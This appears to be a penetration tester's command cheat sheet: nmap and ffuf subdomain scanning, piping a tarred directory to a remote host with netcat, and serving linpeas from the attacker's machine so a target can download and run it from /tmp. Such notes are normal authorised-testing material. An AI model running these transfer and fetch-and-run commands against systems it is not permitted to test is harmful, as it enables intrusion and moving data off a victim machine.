 ## Nmap scan:
```bash
nmap -v -sV -O -A --top-ports 5000 -oN nmap_output.txt <host>
```

## Subdomain scan:
```bash
ffuf -w ./SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -u http://<host> -H "Host: FUZZ.<host>" -mc 200 -fs 15949 -o ffuf_output.json -of json
```

## Send directory with `netcat`
### Sender:
```bash
tar -czf directory.tar.gz ./directory
cat directory.tar.gz | nc <host> 1234
```
### Receiver:
```bash
nc -l -p 1234 > directory.tar.gz
```

## Download and serve linpeas
### Sender:
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8080
```
### Receiver
```bash
cd /tmp
wget <host>:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a > ./output.txt
less -r ./output.txt
```
